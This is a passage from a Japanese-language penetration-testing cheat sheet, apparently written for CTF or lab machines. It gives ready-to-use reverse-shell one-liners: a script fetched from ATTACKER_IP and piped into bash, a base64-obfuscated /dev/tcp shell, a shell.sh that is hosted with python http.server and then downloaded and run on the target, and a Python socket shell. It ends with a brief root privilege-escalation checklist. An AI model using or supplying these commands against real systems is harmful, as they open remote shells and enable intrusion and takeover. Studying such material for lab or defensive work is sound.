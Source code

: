 ```bash
bash -c 'curl ATTACKER_IP:8080/rev.sh' | bash
```

## 4

空白文字など何かしらの影響でリバースシェルが起動しない場合はbase64エンコードしてみる。

```bash
# bash -i >& /dev/tcp/10.10.14.10/2222 0>&1
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMC8yMjIyIDA+JjE= | base64 -d | bash
```

## 5

以下のシェルスクリプト( [`shell.sh`](http://shell.sh) ) をローカルに作成。

```bash
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

ローカルでHTTPサーバを立ち上げる。

```bash
python3 -m http.server 8000
```

何かしらの方法でローカルのシェルスクリプトをターゲットにダウンロードして保存させる。

```bash
curl ATTACKER_IP:8000/shell.sh -o /tmp/shell.sh
```

何かしらの方法で実行権限を与え、シェルスクリプトを実行させる。

```bash
chmod +x /tmp/shell.sh
/bin/bash /tmp/shell.sh
```

## 6

pythonを用いてリバースシェルを起動する。

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## root権限奪取

- 一番最初に `.bash_history` を確認
    
- `id` コマンドでユーザの属しているグループを確認
    
    - findコマンドで当該グループの権限を有するファイルを確認
    - 権限昇格の手がかりがないかグループ名で検索
    - 色々なグループに所属している場合はとりあえず全部[HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html?highlight=staff#staff-group)で検索
- `sudo --version` でバージョンを特定して脆弱性を探す
    